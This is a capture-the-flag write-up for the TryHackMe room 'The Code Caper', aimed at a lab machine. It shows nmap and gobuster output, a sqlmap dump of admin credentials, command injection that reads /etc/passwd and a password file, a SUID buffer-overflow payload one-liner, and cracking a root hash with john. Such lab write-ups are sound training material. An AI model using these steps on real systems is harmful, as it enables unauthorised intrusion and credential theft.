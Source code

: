 # The Code caper

[Link to room](https://tryhackme.com/room/thecodcaper)

echo machine-ip codcaper.com >> /etc/hosts.com

Host-Enumeration

```nmap
# Nmap 7.80 scan initiated Fri May 29 10:13:06 2020 as: nmap -sV -sC -A -p 1-1000 -oN nmap.txt 10.10.9.78
Nmap scan report for 10.10.9.78
Host is up (0.19s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION 
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 6d:2c:40:1b:6c:15:7c:fc:bf:9b:55:22:61:2a:56:fc (RSA)
|   256 ff:89:32:98:f4:77:9c:09:39:f5:af:4a:4f:08:d6:f5 (ECDSA)
|_  256 89:92:63:e7:1d:2b:3a:af:6c:f9:39:56:5b:55:7e:f9 (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.80%E=4%D=5/29%OT=22%CT=1%CU=39823%PV=Y%DS=2%DC=T%G=Y%TM=5ED1189
OS:5%P=x86_64-pc-linux-gnu)SEQ(SP=FD%GCD=1%ISR=108%TI=Z%CI=I%II=I%TS=8)OPS(
OS:O1=M508ST11NW6%O2=M508ST11NW6%O3=M508NNT11NW6%O4=M508ST11NW6%O5=M508ST11
OS:NW6%O6=M508ST11)WIN(W1=68DF%W2=68DF%W3=68DF%W4=68DF%W5=68DF%W6=68DF)ECN(
OS:R=Y%DF=Y%T=40%W=6903%O=M508NNSNW6%CC=Y%Q=)T1(R=Y%DF=Y%T=40%S=O%A=S+%F=AS
OS:%RD=0%Q=)T2(R=N)T3(R=N)T4(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T5(R=
OS:Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)T6(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=
OS:R%O=%RD=0%Q=)T7(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R=Y%DF=N%T
OS:=40%IPL=164%UN=0%RIPL=G%RID=G%RIPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=40%CD=
OS:S)

Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 554/tcp)
HOP RTT       ADDRESS
1   183.91 ms 10.9.0.1
2   184.02 ms 10.10.9.78

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Fri May 29 10:13:41 2020 -- 1 IP address (1 host up) scanned in 34.69 seconds
```

1. How many ports are open on the target machine?

> 2

2. What is the http-title of the web server?

> http-title of nmap scan

3. What version is the ssh service?

> use nmap -sV to check for versions 

4. What is the version of the web server?

> http-server-header of nmap


## Web Enumeration
1. What is the name of the important file on the server?

```bash
gobuster dir -u http://codcaper.com -w /usr/share/SecLists/Discovery/Web-Content/big.txt -t 40 -x php,html,txt
```
```
===============================================================                                                                                              
2020/06/17 03:36:26 Starting gobuster                                                                                                                        
===============================================================
/administrator.php (Status: 200)
/.htpasswd (Status: 403)
/.htpasswd.php (Status: 403)
/.htpasswd.html (Status: 403)
/.htpasswd.txt (Status: 403)
/.htaccess (Status: 403)
/.htaccess.php (Status: 403)
/.htaccess.html (Status: 403)
/.htaccess.txt (Status: 403)
===============================================================
2020/06/17 03:36:34 Finished
===============================================================
```

## Web Exploitation

```bash
sqlmap -u http://codcaper.com/administrator.php --forms --dump
```
1. What is the admin username?
2. What is the admin password?

```
Database: users
Table: users
[1 entry]
+----------+------------+
| username | password   |
+----------+------------+
| pingudad | secretpass |
+----------+------------+
```

3. How many forms of SQLI is the form vulnerable to?

> 3


## Command Injection

go to codcaper.com/administrator.php and enter the credentials

###### Getting shell by command injection

1. How many files are in the current directory?

> run ls 

2. Do I still have an account?

> cat /etc/passwd and check if pingu exists

3. What is my ssh password?

> find / -name pass and cat it 

Login by ssh as pingu

## LinEnum 

```bash
scp {path to linenum} {user}@{host}:{path}. Example: scp /opt/LinEnum.sh pingu@10.10.10.10:/tmp
```
1. What is the interesting path of the interesting suid file

```
[-] SUID files:
-r-sr-xr-x 1 root papa 7516 Jan 16 21:07 /opt/secret/root
-rwsr-xr-x 1 root root 136808 Jul  4  2017 /usr/bin/sudo
-rwsr-xr-x 1 root root 40432 May 16  2017 /usr/bin/chsh
-rwsr-xr-x 1 root root 54256 May 16  2017 /usr/bin/passwd
-rwsr-xr-x 1 root root 75304 May 16  2017 /usr/bin/gpasswd
-rwsr-xr-x 1 root root 39904 May 16  2017 /usr/bin/newgrp
-rwsr-xr-x 1 root root 49584 May 16  2017 /usr/bin/chfn
-rwsr-xr-x 1 root root 428240 Mar  4  2019 /usr/lib/openssh/ssh-keysign
-rwsr-xr-x 1 root root 44168 May  7  2014 /bin/ping
-rwsr-xr-x 1 root root 40128 May 16  2017 /bin/su
-rwsr-xr-x 1 root root 44680 May  7  2014 /bin/ping6
```

Syntax error in method 2 , so here is the code without errors
```
python -c 'import struct;print "A"*44 + struct.pack("<I",0x080484cb)'
```
1. What is the root password!

```bash
echo '$6$rFK4s/vE$zkh2/RBiRZ746OW3/Q/zqTRVfrfYJfFjFc2/q.oYtoF1KglS3YWoExtT3cvA3ml9UtDS8PFzCk902AsWx00Ck.' > hash
john --wordlist=/usr/share/wordlist/rockyou.txt hash
```


